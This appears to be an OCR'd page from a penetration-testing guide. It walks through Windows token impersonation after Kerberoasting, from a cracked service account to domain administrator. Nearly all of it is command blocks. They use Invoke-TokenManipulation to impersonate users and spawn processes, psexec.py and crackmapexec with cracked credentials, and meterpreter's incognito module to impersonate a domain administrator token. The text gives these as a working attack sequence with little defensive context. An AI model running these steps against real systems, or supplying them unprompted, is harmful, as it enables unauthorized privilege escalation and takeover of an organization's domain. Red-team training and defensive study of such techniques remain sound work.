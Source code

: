 ##### Using Invoke-TokenManipulation (PowerShell)
```powershell
# Import the module
Import-Module .\Invoke-TokenManipulation.ps1

# List available tokens
Invoke-TokenManipulation -ShowAll

# Impersonate specific user
Invoke-TokenManipulation -ImpersonateUser -Username "domain\serviceaccount"

# Create process with impersonated token
Invoke-TokenManipulation -ImpersonateUser -Username "domain\admin" -CreateProcess "cmd.exe"
```

##### Manual Token Manipulation
```bash
# Using PsExec with service account credentials (after Kerberoasting)
psexec.py domain.local/serviceaccount:crackedpassword@target_ip

# Once on system, look for high-privilege tokens
whoami /priv

# Check for SeImpersonatePrivilege or SeAssignPrimaryTokenPrivilege
# These privileges allow token impersonation
```

#### Token Impersonation After Kerberoasting

##### Scenario: Service Account to Domain Admin
```bash
# 1. Successfully cracked service account from Kerberoasting
# serviceaccount:ServicePass123!

# 2. Use service account to access systems
crackmapexec smb domain.local -u serviceaccount -p ServicePass123!

# 3. Get shell on system where service account has access
psexec.py domain.local/serviceaccount:ServicePass123!@web-server.domain.local

# 4. Look for administrator tokens on the system
# In meterpreter:
load incognito
list_tokens -u

# 5. If administrator token is available:
impersonate_token domain\\administrator

# 6. Now operating as domain administrator
whoami
# Result: domain\administrator
```
